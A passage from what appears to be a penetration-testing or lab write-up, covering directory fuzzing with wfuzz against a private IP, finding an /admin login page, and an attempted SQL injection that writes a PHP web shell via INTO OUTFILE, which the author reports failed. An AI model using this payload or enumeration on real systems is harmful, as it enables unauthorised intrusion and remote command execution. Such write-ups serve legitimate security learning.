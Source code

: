 Unfortunately, the password was hashed with bcrypt, and brute-forcing it didn’t work.

### Finding the Admin Panel

Even without the password, I tried locating the admin panel in case I could do something useful with a valid username later on.

```bash
wfuzz -c -z file,raft-large-directories-lowercase.txt 
--hc 404 http://172.16.11.54/FUZZ
```

Among the responses, I found `/admin`:

```bash
000000003:   301    "admin"
```

Accessing `http://172.16.11.54/admin`, I got the login page.

![image.png](/images/sql-injection-to-reverse-shell-and-root-access/login-page.png)

### Creating a web shell

Since I couldn't log in, I tried to escalate via the SQLi vulnerability. I attempted to write a PHP web shell like this:

```sql
' UNION SELECT 1, 2, 3, 4, 5, 6, "<?php 
	system($_GET[\"cmd\"]);
?>" INTO OUTFILE "/var/www/html/shell.php"; -- -
```

… but nothing happened. No shell. Probably lacked write permissions to the root web directory.
